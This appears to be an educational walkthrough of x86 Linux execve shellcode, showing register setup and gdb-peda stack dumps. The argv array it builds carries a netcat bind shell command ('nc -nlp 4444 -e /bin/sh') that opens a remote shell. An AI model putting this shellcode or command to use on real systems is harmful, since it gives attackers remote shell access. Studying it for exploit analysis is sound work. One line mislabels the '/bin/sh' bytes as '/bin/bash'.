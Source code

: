### Execve Systemcall
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
    EAX         EBX                   ECX                EDX
```
+ EAX = 0xb - execve systemcall number
+ EBX = Memory location of "/bin/sh",0x00 (Null Terminated)
+ ECX = Array of pointers to memory address of strings containing the program, flag, and arguements.
+ EDX = 0x00000000 - Null DWORD. Used for passing enviornment variables.

### EBX Register
```console
EBX: 0xbffff4ce ("/bin/sh")
```
+ "/bin/sh" was pushed onto the stack.

```console
0xbffff4ce:     0x2f    0x62    0x69    0x6e    0x2f    0x73    0x68    0x0
```
+ Hex for "/bin/bash",0x00

### ECX Register
```console
ECX: 0xbffff4be --> 0xbffff4ce ("/bin/sh")
```
argv[] takes a varying amount of arguments.
+ ECX is pointed to the first arguement.
+ The other arguments should consecutively follow the first.
+ Each arguemnt in argv[] is a pointer.
+ Each arguemnt in argv[] is 4 bytes because it is a pointer to a memory location.
+ The final argument in argv[] needs to be a null DWORD. 0x00000000

### argv[] on the Stack
The easiest way to set up argv[] is to use the stack, as done here.

```console
ECX: 0xbffff4be --> 0xbffff4ce ("/bin/sh")

0000| 0xbffff4be --> 0xbffff4ce ("/bin/sh")
0004| 0xbffff4c2 --> 0xbffff4d6 --> 0x632d ('-c')
0008| 0xbffff4c6 --> 0x804a05d ("nc -nlp 4444 -e \"/bin/sh\" &")
0012| 0xbffff4ca --> 0x0
```

+ Each of these strings are null terminated by at least one null byte at their real memory location.

#### Pointer to location of "/bin/sh",0x00
```console
0000| 0xbffff4be --> 0xbffff4ce ("/bin/sh")
```

#### Pointer to location of "-c",0x00
```console
0004| 0xbffff4c2 --> 0xbffff4d6 --> 0x632d ('-c')
gdb-peda$ x/3c 0xbffff4d6
0xbffff4d6:     0x2d    0x63    0x0
```
